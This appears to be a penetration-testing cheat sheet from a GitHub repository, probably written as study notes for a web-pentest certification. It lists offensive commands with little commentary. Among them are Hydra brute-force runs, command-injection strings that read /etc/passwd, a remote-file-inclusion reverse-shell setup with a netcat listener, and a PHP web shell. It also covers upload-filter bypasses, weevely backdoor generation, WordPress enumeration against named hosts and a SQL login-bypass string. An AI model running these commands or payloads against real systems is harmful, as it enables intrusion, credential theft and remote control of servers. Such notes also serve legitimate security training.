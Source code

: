 # TOOLS
## 1. Enumeration
- __```netdiscover -I eth0 -r <ip>/24```__
- __```dnsenum <domain name>```__
- __```dnsrecon -d <domain_name>```__
- __```whatweb <ip>```__
- __```httracker <url>```__
- __```wafw00f <domain_name>``` or ```wafw00f <domain_name> -a```__
- __```theHarvester -d <domain name> -b google,linkedin,yahoo,dnsdumpster,duckduckgo,crtsh,rapdiddns```__
- __```dnsenum <domain name>```__
- __```dig axfr @<nameServer> <domain name>```__
- __```fierce -dns <domain name>```__
- __```sublist3r -d <domain name>``` or ```sublist3r -d <domain name> -e google,yahoo```  Subdomain Enumeration__
- __```dirb <url>```__

## 2. [Nmap](nmap.md)

## Gobuster
- __```gobuster dir -k -u http://127.0.0.1/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,cnf,conf```__
- __```gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .html,.php -u http://127.0.0.1/```__
- __```gobuster dir --url <url> --wordlist /usr/share/wordlists/dirb/common.txt```__

## dirb
- __```dirb <url> /usr/share/wordlists/dirb/small.txt```__


## Nikto
- __```nikto -h <url>```__


## Hydra 
- __```hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  127.0.0.1 ftp```__
- __```hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt 127.0.0.1 http-get /digest/```__
- __```hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /root/Desktop/wordlists/100-common-passwords.txt 127.0.0.1 http-get /digest/```__

## Mysql
- __```mysql -h 10.0.1.22 -u root```__
- __```select 'This is a test' into outfile '/tmp/test' from mysql.user limit 1;```__
  - > __if executed, confirms the ability to write files on the web server.__
![Image1](/Image/mysql.png)
- __Now navigate to that path where you write the `shell.php`__
  - > __```<url>/shell.php?cmd=id```__
  - > __```<url>/shell.php?cmd=cat /etc/passwd```__

## 3. [SMB](smb.md)
### nmblookup
- `nmblookup -A 10.0.1.22`
  - If you get the result `SAMBA-RECON  <20>`
  - That means there is a server running
  - so using `smbclient` we can connect to the server
 
## [Msfconsole](msfconsole.md)

## [SQL Injection](sql.md)
## [HTTP Method Tampering ](http_tampering.md)
  - __```curl http://<target_ip>/uploads --upload-file shell.php```__

## Need to try in URL
- __<url>?input=test;phpinfo()__
- __<url>?input=test;system('whomai')__
- __<url>?input=test;system('cat /etc/passwd')__

## Nmap Scan for the eWPTv2
- __```sudo nmap -sS -sV --script mysql-empty-password -p 3306 120.0.0.1```__

## RFI

- __```ls -la /usr/share/webshells/php/```__
- __```cp /usr/share/webshells/php/php-reverse-shell.php```__
- > __change the ip to your ip__

- __```python -m SimpleHTTPServer 80```__
- __```nc -nvlp 1234```__


- __In target `<url>/index.php?page=http://<your_ip>/shell.php`__






## Arbitrary File Upload 
#### 1
```php
<?php
$output = shell_exec($_GET(["cmd"]);
echo "<pre>$output</pre>";
?>
```
- > __save it as shell.php and upload this file in webserver__
- > __<url>/shell.php?cmd=id__

#### 2
- __You can use perdefine webshells__
  - __```ls -al /usr/share/webshells/php```__

 #### 3
- __If file upload restricts PHP file types, rename shell.php to an image extension like shell.jpg in burp suite. Simply visiting `<url>/shell.jpg` won’t execute the PHP script. To run the script, append `/shell.php` to the URL: `<url>/shell.jpg/shell.php`__
  - __```<url>/shell.jpg/shell.php?cmd=id```__
  - > __Note: This can be done in nginx by chrome__
### OR
- __you can use weevely to generate php script in the formate of .jpg__
- __```weevely generate password ~/Desktop/shell.jpg```__
- __```weevely <url_where_the_file_uploaded>/shell.jpg/shell.php password```__
- __`curl -F "Filedata=@./shell.php" <url_of_upload>`__

# WordPress
## [1] Information Gathering & Enumeration
- [x] __Check for the `meta tag` in source code__
- [x] __Check for the `/readme.html` or `txt` and `/license.txt`__
- [x] __Check for the `X-Powered-By` in Burpsuite__
- [x] __Check for the `/wp-login` or `/wp-login.php` and `/wp-admin` for the version__
- [x] __Check for the `/wp-json` or `/wp-json/wp/v2/users` if is not working `xmlrpc.php`__
- [x] __Check for the `changelog.txt` or `CHANGELOG.txt`__
- [x] __wpscan --url <url>__

  - __`curl -s -I -X GET https://vishwa747.wordpress.com/wp-json/wp/v2/users`__

- __Checking if the root user exists: If you receive a 200 OK root is there or try to change the number__
  - __`curl -s -I -X GET https://vishwa747.wordpress.com/?author=1`__

- [ ] __1. WP VERSION__
  - __`curl -s -X GET https://ma91jfbmc9tc0dbhwgtp9kgsh.us-east-40.attackdefensecloudlabs.com/ | grep http | grep -E '?ver=' | sed -E 's,href=src=, THIIIIS, g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2__`
- [ ] __2. Plugin Enumeration__
  - __`curl -s -X GET https://wordpress.com/ | grep -E 'wp-content/plugins/' | sed -E 's, href=| src=, THIIIIS, g' | awk -F "THIIIIS" '{print$2}' | cut -d "'" -f2`__
- [ ] __3. Theme Enumeration__
  - __`curl -s -X GET https://wordpress.com/ | grep -E 'wp-content/themes' | sed -E 's, href=|src=, THIIIIS,g' | awk -F "THIIIIS" '{print$2}' | cut -d "'" -f2`__
     
  - 
- __`<url>/wp-content/uploads`__
- __`curl -F "Filedata=@./shell.php" <url_of_upload>`__

## Login bypass
```
" or 1 = 1-- -
```

# Check list
- [x] [Open redirect](open_redirect.md)
- [x] [Cross-Site Scripting (XSS)](xss.md)
- [x] [Content-Security-Policy](csp.md)



